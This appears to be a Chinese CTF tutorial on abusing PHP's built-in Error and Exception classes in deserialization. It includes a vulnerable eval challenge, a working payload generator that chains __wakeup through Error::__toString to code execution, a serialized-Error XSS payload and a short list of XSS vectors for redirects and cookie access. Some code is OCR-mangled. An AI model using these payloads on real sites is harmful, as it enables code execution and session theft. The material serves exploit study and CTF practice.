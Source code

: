 # ERROR类和exception类

顾名思义，error类是php中的报错类


exception为php中的异常类。


因为它内置有一个`__toString()`的方法，常用于PHP 反序列化中。


接下来介绍用法（欢迎补充姿势）


## 1 .md5()和sha1()绕过


md5函数的绕过应该大家都清楚，最常用的方法是null==null。


也就是传参的时候变为数组，然后使php解析报错


那么这里其实原理很为类似


***Error****是所有PHP内部错误类的基类，该类是在PHP 7.0.0 中开始引入的。*


`Error::__construct`— 初始化 error 对象

* 
`Error::getMessage`— 获取错误信息

* 
`Error::getPrevious`— 返回先前的 Throwable

* 
`Error::getCode`— 获取错误代码

* 
`Error::getFile`— 获取错误发生时的文件

* 
`Error::getLine`— 获取错误发生时的行号

* 
`Error::getTrace`— 获取调用栈（stack trace）

* 
`Error::getTraceAsString`— 获取字符串形式的调用栈（stack trace）

* 
`Error::__toString`— error 的字符串表达

* 
`Error::__clone`— 克隆 error

* 
***Exception****是所有异常的基类，该类是在PHP 5.0.0 中开始引入的。*


`Exception::__construct`— 异常构造函数

* 
`Exception::getMessage`— 获取异常消息内容

* 
`Exception::getPrevious`— 返回异常链中的前一个异常

* 
`Exception::getCode`— 获取异常代码

* 
`Exception::getFile`— 创建异常时的程序文件名称

* 
`Exception::getLine`— 获取创建的异常所在文件中的行号

* 
`Exception::getTrace`— 获取异常追踪信息

* 
`Exception::getTraceAsString`— 获取字符串类型的异常追踪信息

* 
`Exception::__toString`— 将异常对象转换为字符串

* 
`Exception::__clone`— 异常克隆

* 
两个函数均有__tostring类


稍微解释下：（暗示例子）


```plain
<?phperror_reporting(0);class SYCLOVER {        public $syc;    public $lover;       public function __wakeup()      {       if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) )      {                          if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match))           {eval($this->syc);}else {               die("Try Hard !!");           }                   }    }}if (isset($_GET['great'])) {    unserialize($_GET['great']);} else {    highlight_file(__FILE__);}?>

Plain Text
```



(看到这个syclover就想到那张大脸。。。）


比较典型的反序列化。


想要达成代码执行必须先通过上面的md5和sha1的比较匹配。


由于是因为在类中，数组是用不了的。


想想__tostring的调用方法：


当类被当成字符串时调用


于是我们构造一条链


unserilize->__wakeup()->error()类->__tostring->eval()函数


```plain
<phpclass SYCLOVER { public $syc; public $lover; $str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";} $a=new Error($str,1); $b=new Error($str,2);//原生类用在这里 $c = new SYCLOVER(); $c->syc = $a; $c->lover = $b;echo(urlencode(serialize($c)));?>
Plain Text
```



这就是最后的payload


这里应该是能看懂


ps:”?>”是因为ERROR报错类会跳出一长串不可预知的报错信息，需要命令执行的话需要用?>去闭合掉爆出来的杂七杂八的信息。~是取反符号绕过过滤。（理解一下，和异或很类似）。


eval("...Error: ?><?php payload ?>")


## 2.PHP7.0下的XSS


```plain
<?php$a = unserialize($_GET['whoami']);echo $a;?>
PHP
```



上面的代码只有一个简单的反序列化，并没有给出类，这时候一般都会去思考一下原生类。


```plain
<?php$a = new Error("<script>alert('xss')</script>");$b = serialize($a);echo urlencode($b);  ?>
Plain Text
```



然后报错把插入的XSS代码执行。


之后一般会用到XSS里面的知识模块例如：





<script>alert("内容")</script>    使用<script>标签，弹出消息对话框


<bodyonload=alert("内容")>    使用<body>标签，弹出消息对话框


<a href=“”onclick=alert(“内容”)>链接文字</a> 使用<a>标签，显示可点击链接，点击链接后弹出消息对话框


<imgsrc=WrongIP onerror=alert("内容")>   使用<img>标签，弹出消息对话框


<script>window.location.href="网站地址"</script>  使用<script>标签，重定向页面


<script>alert=(document.cookie)</script>   使用<script>标签，cookie获取


等等


例题可以看这个：（网上蛮多的我就不放了）
